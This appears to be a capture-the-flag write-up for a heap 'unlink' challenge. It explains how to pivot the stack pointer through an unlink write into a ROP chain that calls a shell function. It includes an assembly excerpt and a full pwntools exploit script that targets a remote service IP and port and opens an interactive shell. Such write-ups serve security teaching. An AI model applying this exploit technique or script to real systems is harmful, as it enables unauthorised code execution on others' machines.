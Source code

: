 Initially I was thinking to change return address in stack to shell function, however, dword shoot always causes an reflection shoot, and in this case, it will cause unwrittable code segment to be written, so this does not work.

If we cannot manipulate eip, how about manipulate the esp, and let esp points to somewhere on the heap, where our ROP is putted?

Looking at the end of main function,

```assembly
.text:080486E4   mov  ecx, [ebp+change_this_to_heap]
.text:080486E7   leave
.text:080486E8   lea  esp, [ecx-4]
.text:080486EB   retn
```

so if we change variable change\_this\_to\_heap to our ROP\+4, and ROP saves address of shell function, we can get the shell.

Therefore, if we let back = change\_this\_to\_heap, and front = rop\+4, when unlink, \[front\+4\] = back and \[back\] = front will be executed, which is \[rop\+8\] = change\_this\_to\_heap\(unuseful reflection\) and \[change\_this\_to\_heap\] = rop\+4 \(what we want\).

Exploit is

```python
from pwn import *
g_local = False
if g_local:
	sh=process("./unlink")
	#sh=gdb.debug("./unlink")
else:
	sh=remote("159.203.149.53",30007)

def parse_hex(hex_str):
	return int(hex_str[:hex_str.find("\n")], 16)

shell_addr = 0x0804859B

#buf = 0x804b418
#0x0804b410 l1
#0x0804b428 l2
#0x0804b410	0x0804b428	0x0804b440
front = 0x24
back = 0x14

sh.recvuntil("here is stack address leak: ")
back += parse_hex(sh.recvuntil("here is heap address leak: "))
front += parse_hex(sh.recvuntil("get shell!\n"))

sh.send("A" * 0x10 + p32(front) + p32(back) + p32(shell_addr) + "\n")
sh.interactive()

```
